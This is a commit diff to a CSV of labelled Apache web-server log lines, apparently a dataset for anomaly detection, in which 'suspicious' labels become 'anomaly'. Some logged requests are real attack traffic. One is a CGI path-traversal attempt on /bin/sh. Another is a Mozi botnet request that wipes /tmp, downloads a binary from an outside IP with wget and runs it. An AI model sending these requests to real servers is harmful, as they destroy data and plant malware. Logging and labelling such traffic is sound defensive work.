

Before and after one commit to forteggu/my-digital-twin-demo, a CSV file: python scripts/HTTPD/datasets/originals/httpd_logs_with_behavior.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
renamed suspicious tags for anomaly for better consistency with the other logs

```diff
--- a/python scripts/HTTPD/datasets/originals/httpd_logs_with_behavior.csv
+++ b/python scripts/HTTPD/datasets/originals/httpd_logs_with_behavior.csv
@@ -41,12 +41,12 @@ log_entry,behavior
 "159.65.190.39 - - [16/Nov/2024:12:55:58 +0000] ""GET /favicon.ico HTTP/1.1"" 404 196",normal
-"139.59.101.104 - - [16/Nov/2024:13:03:46 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",suspicious
-"194.50.16.198 - - [16/Nov/2024:14:04:10 +0000] ""POST /apply.cgi HTTP/1.1"" 404 196",suspicious
-"167.94.138.160 - - [16/Nov/2024:16:32:08 +0000] ""\x16\x03\x01"" 400 226",suspicious
-"152.42.214.140 - - [16/Nov/2024:16:39:45 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",suspicious
+"139.59.101.104 - - [16/Nov/2024:13:03:46 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",anomaly
+"194.50.16.198 - - [16/Nov/2024:14:04:10 +0000] ""POST /apply.cgi HTTP/1.1"" 404 196",anomaly
+"167.94.138.160 - - [16/Nov/2024:16:32:08 +0000] ""\x16\x03\x01"" 400 226",anomaly
+"152.42.214.140 - - [16/Nov/2024:16:39:45 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",anomaly
 "80.82.77.202 - - [16/Nov/2024:19:25:30 +0000] ""GET / HTTP/1.0"" 200 1755",normal
-"8.222.151.66 - - [16/Nov/2024:22:57:17 +0000] ""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1"" 400 226",suspicious
-[Sat Nov 16 22:57:17.638010 2024] [core:error] [pid 9:tid 27] [client 8.222.151.66:57748] AH10244: invalid URI path (/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh),suspicious
+"8.222.151.66 - - [16/Nov/2024:22:57:17 +0000] ""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1"" 400 226",anomaly
+[Sat Nov 16 22:57:17.638010 2024] [core:error] [pid 9:tid 27] [client 8.222.151.66:57748] AH10244: invalid URI path (/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh),anomaly
 "205.210.31.164 - - [16/Nov/2024:23:08:32 +0000] ""GET / HTTP/1.0"" 200 1755",normal
-"152.42.214.50 - - [17/Nov/2024:00:37:01 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",suspicious
-"152.42.214.140 - - [17/Nov/2024:00:38:31 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",suspicious
+"152.42.214.50 - - [17/Nov/2024:00:37:01 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",anomaly
+"152.42.214.140 - - [17/Nov/2024:00:38:31 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",anomaly
 "5.8.11.202 - - [17/Nov/2024:01:44:28 +0000] ""GET / HTTP/1.0"" 200 1755",normal
@@ -54,13 +54,13 @@ log_entry,behavior
 "14.167.198.63 - - [17/Nov/2024:03:23:52 +0000] ""HEAD /web-console/ServerInfo.jsp HTTP/1.1"" 404 -",normal
-"93.174.93.12 - - [17/Nov/2024:03:36:47 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",suspicious
+"93.174.93.12 - - [17/Nov/2024:03:36:47 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",anomaly
 "45.149.241.114 - - [17/Nov/2024:04:26:58 +0000] ""GET /.env HTTP/1.1"" 404 196",normal
 "114.33.126.55 - - [17/Nov/2024:05:26:59 +0000] ""GET / HTTP/1.0"" 200 1755",normal
-"120.229.204.159 - - [17/Nov/2024:06:02:33 +0000] ""GET /shell?cd+/tmp;rm+-rf+*;wget+http://120.229.204.159:33456/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1"" 404 196",suspicious
-"152.42.174.244 - - [17/Nov/2024:08:36:38 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",suspicious
-"167.94.145.97 - - [17/Nov/2024:11:17:36 +0000] ""\x16\x03\x01"" 400 226",suspicious
-"93.174.93.12 - - [17/Nov/2024:13:13:27 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",suspicious
-"5.8.11.202 - - [17/Nov/2024:15:38:30 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",suspicious
+"120.229.204.159 - - [17/Nov/2024:06:02:33 +0000] ""GET /shell?cd+/tmp;rm+-rf+*;wget+http://120.229.204.159:33456/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1"" 404 196",anomaly
+"152.42.174.244 - - [17/Nov/2024:08:36:38 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",anomaly
+"167.94.145.97 - - [17/Nov/2024:11:17:36 +0000] ""\x16\x03\x01"" 400 226",anomaly
+"93.174.93.12 - - [17/Nov/2024:13:13:27 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",anomaly
+"5.8.11.202 - - [17/Nov/2024:15:38:30 +0000] ""\x16\x03\x02\x01o\x01"" 400 226",anomaly
 "125.229.134.120 - - [17/Nov/2024:15:53:55 +0000] ""GET / HTTP/1.0"" 200 1755",normal
-"152.42.243.111 - - [17/Nov/2024:16:38:32 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",suspicious
-"152.42.243.111 - - [17/Nov/2024:16:38:36 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",suspicious
+"152.42.243.111 - - [17/Nov/2024:16:38:32 +0000] ""GET /cdn-cgi/trace HTTP/1.1"" 404 196",anomaly
+"152.42.243.111 - - [17/Nov/2024:16:38:36 +0000] ""\x16\x03\x01\x01\v\x01"" 400 226",anomaly
 "149.50.106.25 - - [17/Nov/2024:16:54:02 +0000] ""GET / HTTP/1.1"" 200 1755",normal
```
Also changed, not shown: 64 edited cells elsewhere in this file, python scripts/HTTPD/datasets/parsed/httpd_logs_with_behavior_parsed.csv.
